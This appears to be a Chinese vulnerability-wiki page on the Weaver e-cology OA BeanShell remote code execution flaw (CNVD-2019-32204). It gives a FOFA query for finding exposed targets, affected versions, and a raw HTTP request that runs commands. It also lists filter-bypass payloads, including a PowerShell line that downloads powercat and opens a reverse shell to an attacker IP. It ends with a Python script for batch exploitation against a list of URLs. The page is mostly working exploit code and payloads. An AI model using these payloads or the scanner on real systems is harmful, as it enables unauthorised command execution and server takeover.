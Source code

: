 # 泛微OA Bsh 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## FOFA

> [!NOTE]
>
> app=“泛微-协同办公OA”

## 影响版本

> [!NOTE]
>
> E-cology 7.0
> E-cology 8.0
> E-cology 8.1
> E-cology 9.0

## 漏洞复现

直接在网站根目录后加入组件访问路径 /weaver/bsh.servlet.BshServlet/，如下图在victim上执行了命令“whoami”

![](http://wikioss.peiqi.tech/vuln/fanwei-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

#### 关于绕过

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```

### 漏洞POC

https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204

```python
#/usr/bin/python
#coding:utf-8
#Author:Ja0k
#For Weaver-Ecology-OA_RCE

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

import requests,sys

headers = {
    'Content-Type': 'text/xml; charset=utf-8',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0',
    'Cache-Control': 'max-age=0',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Upgrade-Insecure-Requests': '1',
    'Content-Length': '578'
}

proxies= {'http':'http://127.0.0.1:8080'}
            
def Poc_check(target):

    Url_Payload1="/bsh.servlet.BshServlet"
    Url_Payload2="/weaver/bsh.servlet.BshServlet"
    Url_Payload3="/weaveroa/bsh.servlet.BshServlet"
    Url_Payload4="/oa/bsh.servlet.BshServlet"
    
    Data_Payload1="""bsh.script=exec("whoami");&bsh.servlet.output=raw"""
    Data_Payload2= """bsh.script=\u0065\u0078\u0065\u0063("whoami");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw"""
    Data_Payload3= """bsh.script=eval%00("ex"%2b"ec(bsh.httpServletRequest.getParameter(\\"command\\"))");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami"""
    for Url_Payload in (Url_Payload1,Url_Payload2,Url_Payload3,Url_Payload4):
        url= target + Url_Payload
        for Data_payload in (Data_Payload1,Data_Payload2,Data_Payload3): 
            try:
                http_response = requests.post(url,data=Data_payload,headers=headers,verify=False)
                #print http_response.status_code
                if http_response.status_code == 200:
                    if ";</script>" not in (http_response.content):
                        if "Login.jsp" not in (http_response.content):
                            if "Error" not in (http_response.content):
                                print "{0} is a E-cologyOA_RCE Vulnerability".format(url)
                                print "Server Current Username：{0}".format(http_response.content)
                elif http_response.status_code == 500:
                    print "{0}500 maybe is Weaver-EcologyOA，Please confirm by yourself ".format(url)
                else:
                    pass              
            except Exception,Error:
                pass    
    
if __name__ == '__main__':
    for line in open(sys.argv[1]).readlines():
        target=line.strip()
        Poc_check(target)
```

```
#1.install python Dependencies Library 
pip install requests

#2.批量脚本 执行 
python Weaver-Ecology-OA_RCE-exp.py 


url.txt文件中 是url地址 需要带http协议

有任何问题请issue
```


